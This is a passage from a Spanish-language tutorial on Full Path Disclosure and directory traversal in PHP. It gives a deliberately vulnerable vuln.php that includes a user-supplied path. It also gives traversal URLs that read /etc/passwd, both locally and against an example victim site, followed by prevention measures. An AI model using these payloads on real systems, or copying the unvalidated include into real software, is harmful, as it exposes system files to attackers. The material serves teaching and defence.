 #### `vuln.php`

```php
<?php
$page = $_GET['page'];
include($page);
?>
```

Ejecuta un servidor:

```bash
php -S localhost:8080
```

Prueba esto en tu navegador:

```
http://localhost:8080/vuln.php?page=../../../etc/passwd
```

---

### 🎯 Ejemplo Completo: FPD + Directory Traversal

1. **El atacante encuentra una URL vulnerable**:

```
http://victima.com/vuln.php?page=contact.php
```

2. **Prueba una ruta incorrecta**:

```
http://victima.com/vuln.php?page=contactx.php
```

Y ve el error:

```
Warning: include(contactx.php): failed to open stream: No such file or directory in /var/www/html/vuln.php
```

👉 Esto es un **Full Path Disclosure**

---

3. **Luego explota Directory Traversal**:

```
http://victima.com/vuln.php?page=../../../../etc/passwd
```

🔥 Y obtiene el contenido del archivo.

---

### 🛡️ Cómo prevenir FPD y Directory Traversal

| Medida                          | Descripción                                                                |
| ------------------------------- | -------------------------------------------------------------------------- |
| ✅ Desactiva mensajes de error  | Usa `display_errors = Off` en `php.ini`                                    |
| ✅ Usa rutas absolutas seguras  | No uses `include($_GET['param'])` sin validación                           |
| ✅ Usa listas blancas           | Solo permite archivos conocidos: `if($page == 'home') include('home.php')` |
| ✅ Escapa caracteres especiales | Sanitiza `../`, `..%2F`, etc.                                              |

---